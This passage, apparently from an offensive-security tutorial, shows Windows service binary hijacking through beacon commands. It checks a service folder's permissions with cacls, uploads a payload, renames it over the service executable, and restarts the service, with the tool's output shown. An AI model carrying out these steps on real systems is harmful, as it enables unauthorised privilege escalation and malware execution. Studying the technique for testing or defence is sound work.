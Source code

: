 ```batch
beacon> cacls "C:\Program Files\Bad Windows Service"
C:\Program Files\Bad Windows Service NT AUTHORITY\Authenticated Users:(CI)(OI)F

beacon> cd C:\Program Files\Bad Windows Service
beacon> upload C:\Payloads\dns_x64.svc.exe
beacon> mv dns_x64.svc.exe Service.exe
```

A service runs its binary when it starts, so a service must be stopped and restarted to execute the malicious binary after it has been dropped to disk.  It may be the case that the adversary does not have permissions to do this, and therefore must wait until the computer restarts.  If they do have permissions, the `sc_stop` and `sc_start` commands can be used.

```batch
beacon> sc_stop BadWindowsService
stop_service:
  hostname:    
  servicename: BadWindowsService
SUCCESS.

beacon> sc_start BadWindowsService
start_service:
  hostname:    
  servicename: BadWindowsService
SUCCESS.
```
